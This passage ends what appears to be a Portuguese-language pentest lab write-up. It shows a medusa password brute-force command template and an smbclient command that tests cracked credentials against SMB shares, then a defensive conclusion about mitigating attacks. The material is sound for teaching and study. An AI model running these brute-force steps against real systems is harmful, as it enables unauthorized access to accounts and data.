> medusa -h < IP alvo > -U < arquivo_usuario.txt > -P < arquivo_senha.txt > -M < módulo > -t < quantidade de threads > -T < número total de hosts simultâneos >



teste o usuário e senha se conectando ao cliente smb e listando os diretórios
> smbclient -L < //IP alvo > -U <usuário>



⚕️ **Síntese:** A enumeração dos dados do sistema nos permite ter acesso a lista de usuários, a partir dessa lista já filtramos as possíveis combinações, maior parte do trabalho seria achar a combinação entre os usuários existentes e uma combinação de seclist para achar as senhas. Como esse cenário foi bem contido, diminuímos a quantidade total apenas para ilustrar como o processo ocorre sem levar muito do tempo

## Conclusão
Existem várias maneiras e ferramentas que permitem invadir um site ou sistema. Por isso é necessário estar ciente de possíveis vetores de ataques como senhas padrões, versões antigas de programas que podem conter falhas e etc. Vigilância constante, boas práticas e estar ciente dos métodos, do modo como esses programas funcionam e tecnologias mais atuais são as maneiras mais eficazes de mitigar ataques. 
